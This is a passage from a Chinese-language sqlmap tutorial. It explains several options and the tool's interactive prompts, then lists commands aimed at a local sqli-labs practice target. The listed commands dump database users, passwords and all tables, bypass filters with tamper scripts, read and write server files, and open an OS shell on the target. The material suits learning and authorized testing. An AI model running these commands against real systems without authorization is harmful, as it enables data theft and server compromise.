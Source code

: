 ```

--risk：风险等级

--identify-waf：检测防火墙类型

--skip-urlencode：不进行URL编码

--keep-alive：设置持久连接，加快探测速度

--null-connection：检索没有body响应的内容，多用于盲注
```

在探测目标URL是否存在漏洞的过程中，Sqlmap会和我们进行交互。

- 第一处交互的地方是说这个目标系统的数据库好像是Mysql数据库，是否还探测其他类型的数据库。我们选择 n，就不探测其他类型的数据库了，因为我们已经知道目标系统是Mysql数据库了。
- 第二处交互的地方是说 对于剩下的测试，问我们是否想要使用扩展提供的级别(1)和风险(1)值的“MySQL”的所有测试吗？ 我们选择 y。
- 第三处交互是说已经探测到参数id存在漏洞了，是否还探测其他地方，我们选择 n 不探测其他参数了 。
- 最后sqlmap就列出了参数id存在的注入类型是boolean盲注，还有payload其他信息也显示出来了，最后还列出了目标系统的版本，php，apache等信息。

---

> 简单使用：

```sh
sqlmap -r http.txt   #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --columns    #爆出数据库中所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql Firebird, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, SAP MaxDB, SQLite, Sybase
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
```